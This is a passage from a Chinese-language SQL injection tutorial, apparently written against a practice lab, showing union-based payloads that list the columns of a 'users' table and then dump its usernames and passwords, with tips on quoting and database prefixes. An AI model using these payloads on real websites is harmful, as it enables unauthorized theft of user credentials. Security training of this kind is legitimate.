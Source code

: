看到了最后一个表是'users',可用于下一步爆字段

爆字段：

```mysql
id=0' union select 1,group_concat(column_name),database() from information_schema.columns where table_name='users' --+		//记得最后这个表名要加单引号，不然没用
```

![](/img/union爆字段.png)

爆出来了users表中的所有字段，最重要的user,password等全出来了，接下来就可以union查询出它们的值了

```mysql
id=0' union select 1,group_concat(username,0x3a,password),3 from [security.]users --+		//有时候要在表名前面加上数据库名，不然也出不来,即 这个环境下的security.
```

![](/img/union爆出账号密码.png)
